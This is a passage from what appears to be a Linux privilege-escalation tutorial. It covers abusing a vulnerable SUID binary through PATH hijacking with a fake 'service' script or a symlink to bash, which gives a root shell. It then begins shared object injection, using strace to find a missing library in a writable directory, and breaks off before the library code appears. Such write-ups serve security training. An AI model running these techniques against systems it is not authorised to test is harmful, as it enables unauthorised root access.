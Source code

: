 {% code title="/tmp/service" %}
```bash
#!/bin/bash
bash
```
{% endcode %}

Then set the PATH variable before executing the vulnerable SUID program:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ PATH=/tmp:$PATH ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Replacing the command with a symlink

We can do this same tick, a bit quicker by using a Symbolic Link. We create a link that references `/bin/bash` so when our command gets called it goes to bash instead of the intended `service` command.d

```bash
ln -s /bin/bash /tmp/service
```

## Shared Object Injection

This technique is a little more advanced. Programs often need libraries to do certain things, but sometimes you can overwrite some of these libraries with your own. Then the SUID program would load your malicious library instead of the normal one, executing your code.&#x20;

You can find what libraries a program loads at runtime using `strace` and looking for opened files:

```c
$ strace ./vulnerable 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

In the example above, you can see a few libraries that it failed to access. The last one (libcalc.so) is in my user's home directory, so we can write our own library there for it to be executed:
